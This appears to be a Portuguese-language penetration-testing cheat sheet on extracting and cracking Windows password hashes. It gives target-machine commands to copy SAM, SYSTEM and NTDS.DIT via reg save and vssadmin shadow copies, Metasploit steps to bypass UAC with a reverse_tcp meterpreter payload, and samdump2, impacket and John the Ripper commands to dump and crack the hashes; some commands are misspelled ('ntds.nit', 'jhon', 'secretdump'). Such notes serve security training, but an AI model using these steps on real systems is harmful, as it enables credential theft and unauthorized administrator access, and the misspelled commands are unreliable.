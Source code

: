 # Windows Hashes

## Padrão de Hash do Windows
``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``
LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**
Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**
Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**
Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**
Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**
Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes

Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes

Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**
``jhon --format=nt hash``

**Quebra de Hash com LM:**
``jhon --format=lm hash``
